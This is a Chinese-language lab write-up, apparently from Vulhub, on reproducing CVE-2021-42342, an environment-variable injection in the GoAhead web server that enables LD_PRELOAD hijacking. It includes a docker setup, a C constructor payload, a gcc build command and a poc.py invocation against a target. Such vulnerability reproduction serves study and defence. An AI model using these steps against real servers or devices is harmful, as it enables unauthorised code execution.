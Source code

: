 # GoAhead Server 环境变量注入（CVE-2021-42342）

GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序。

这个漏洞是[CVE-2017-17562](https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562)漏洞补丁的绕过，攻击者可以利用该补丁没有考虑到的multipart表单控制目标服务器的环境变量，进而劫持`LD_PRELOAD`来执行任意代码。

参考链接：

- https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562
- https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg

## 漏洞环境

执行如下命令启动GoAhead 5.1.4：

```
docker compose up -d
```

启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。访问`http://your-ip:8080/cgi-bin/index`即可查看到Hello页面，即为CGI执行的结果。

## 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。所以在实战中，如果对方是一个智能设备，你可能需要交叉编译。因为Vulhub运行在`Linux x86_64`的机器中，所以我们直接用Linux PC编译即可。动态链接库源码：

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

这样，`before_main`函数将在程序执行前被调用。编译以上代码：

```
gcc -s -shared -fPIC ./payload.c -o payload.so
```

然后，我们使用[这个脚本](poc.py)来发送恶意数据包，复现漏洞：

```
python poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
```

可见，我们在动态链接库中编写的劫持代码已经被成功执行：

![](1.png)
